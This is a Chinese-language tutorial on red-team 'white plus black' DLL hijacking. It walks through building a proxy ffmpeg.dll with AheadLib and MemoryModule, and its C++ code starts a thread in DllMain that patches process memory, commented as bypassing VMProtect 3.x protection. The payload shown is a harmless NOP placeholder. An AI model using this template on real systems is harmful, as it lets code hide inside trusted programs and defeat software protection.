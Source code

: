 
## 白加黑<sup>[1]</sup>

在 红蓝对抗（Red Team vs. Blue Team） 网络安全演练中，“白加黑” 主要指 白+黑结合的攻击手法，
即 合法手段（白）+ 非法手段（黑） 混合使用，来规避安全防御并实现攻击目标。

“白加黑” 在红蓝对抗中指的是 利用合法工具（白）掩盖非法攻击（黑），让攻击行为更难被检测。

白（White） → 合法、正常的系统功能、工具（如 Windows 计划任务、PowerShell、RDP）。

黑（Black） → 恶意利用、攻击行为（如木马、权限提升、数据窃取）。

这种方式使攻击看起来像是正常的系统操作，降低被检测的风险。

核心思路：用“白”来隐藏“黑”！ 

## 本文研究目的

本文参考文章：[DLL劫持-白加黑](https://www.cnblogs.com/xiaoxin07/p/18097421)<sup>[2]</sup>，实现对`ffmpeg.dll`进行补丁操作。

由于`ffmpeg.dll`是视频编解码DLL，使用非常广泛，因此有一定的代表作用。

## 工具

- IDE：Visual Studio 2019
- AheadLib-x86-x64: https://github.com/strivexjun/AheadLib-x86-x64
- MemoryModule：https://github.com/fancycode/MemoryModule

## 代码生成

![代码生成](../images/03.01.jpg)

借助于*AheadLib-x86-x64*，可基于待研究的DLL生成初步的代码。原理是扫描DLL中的函数，生成汇编语言和DLL导出清单。

点击“Makefile”，我们将得到2个文件：

- ffmpeg.cpp：这个是我们制作补丁DLL的初步代码，在Visual Studio 2019中新建DLL工程，把该文件包含进去。
- ffmpeg_jump.asm：这个是汇编代码，需要在Visual Studio 2019进行设置。

![代码生成](../images/03.02.jpg)

![代码生成](../images/03.03.jpg)
 
针对汇编代码`ffmpeg_jump.asm`，我们需要将该文件添加到VS2019中，并在属性进行设置：

- 命令行： ml64 /Fo $(IntDir)%(fileName).obj /c /Cp %(fileName).asm
- 输出：$(IntDir)%(fileName).obj

## 补丁制作

### 1. DllMain修改

```c++
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);

		if (Load() && Init())
		{
			TCHAR szAppName[MAX_PATH] = TEXT("MyApp.exe");//请修改宿主进程名
			TCHAR szCurName[MAX_PATH];

			GetModuleFileName(NULL, szCurName, MAX_PATH);
			PathStripPath(szCurName);

			//是否判断宿主进程名
			if (StrCmpI(szCurName, szAppName) == 0)
			{
				//启动补丁线程或者其他操作
				HANDLE hThread = CreateThread(NULL, NULL, ThreadProc, NULL, NULL, NULL);
				if (hThread)
				{
					CloseHandle(hThread);
				}
			}
		}
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
		Free();
	}

	return TRUE;
}
```

在`DllMain`函数中，会对进程名称进行比对，需要将进程名称修改为我们要打补丁的进程，或者去掉这个名称判断逻辑。

### 2.加载原始DLL

```c++
BOOL WINAPI Load()
{
	TCHAR tzPath[MAX_PATH];
	TCHAR tzTemp[MAX_PATH * 2];

	//
	// 这里是否从系统目录或当前目录加载原始DLL
	//
	//GetModuleFileName(NULL,tzPath,MAX_PATH); //获取本目录下的
	//PathRemoveFileSpec(tzPath);

	GetSystemDirectory(tzPath, MAX_PATH); //默认获取系统目录的

	lstrcat(tzPath, TEXT("\\ffmpeg.dll"));

	g_OldModule = LoadLibrary(tzPath);
	if (g_OldModule == NULL)
	{
		wsprintf(tzTemp, TEXT("无法找到模块 %s,程序无法正常运行"), tzPath);
		MessageBox(NULL, tzTemp, TEXT("AheadLib"), MB_ICONSTOP);
	}

	return (g_OldModule != NULL);
}
```

在`Load`函数中加载原始DLL，以便进程调用这些函数时不会出现问题，而是由我们制作的新DLL去调用原始函数。

**提示**：可以将原始DLL转换为C数组，从内存中加载原始DLL，这样子只需要将我们制作的新DLL替换原始DLL即可，
否则就需要将原始DLL改名，由我们的新DLL去`Load`这个改名DLL。

如果装了Git，我们会有一个名称"xxd.exe"的程序位于`C:\Program Files\Git\usr\bin\xxd.exe`，执行命令：
```bat
xxd -i ffmpeg.dll > ffmpeg_dll.cpp
```

其中，`ffmpeg_dll.cpp`就是内存中的原始DLL，借助于*MemoryModule*即可在内存中执行原始DLL。

### 3.执行补丁
```cpp
DWORD WINAPI ThreadProc(LPVOID lpThreadParameter)
{
	HANDLE hProcess;

	PVOID addr1 = reinterpret_cast<PVOID>(0x00401000);
	BYTE data1[] = { 0x90, 0x90, 0x90, 0x90 };

	//
	// 绕过VMP3.x 的内存保护
	//
	hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, GetCurrentProcessId());
	if (hProcess)
	{
		WriteProcessMemory(hProcess, addr1, data1, sizeof(data1), NULL);

		CloseHandle(hProcess);
	}

	return 0;
}
```

在线程`ThreadProc`里面执行我们的补丁操作，这样，一个带补丁的`ffmpeg.dll`就做好了，将其覆盖原始DLL，启动所属程序，就触发了我们的补丁操作。

## 延伸讨论

对其他DLL的补丁操作也是同理。为了扫描进程加载了哪些DLL，可以利用下述工具：

- 查看依赖DLL：https://github.com/lucasg/Dependencies

- 进程监视器：https://learn.microsoft.com/de-de/sysinternals/downloads/procmon

## 参考资料

[1] ChatGPT, 红蓝对抗中的“白加黑”是啥？2025/02/20

[2] https://www.cnblogs.com/xiaoxin07/p/18097421
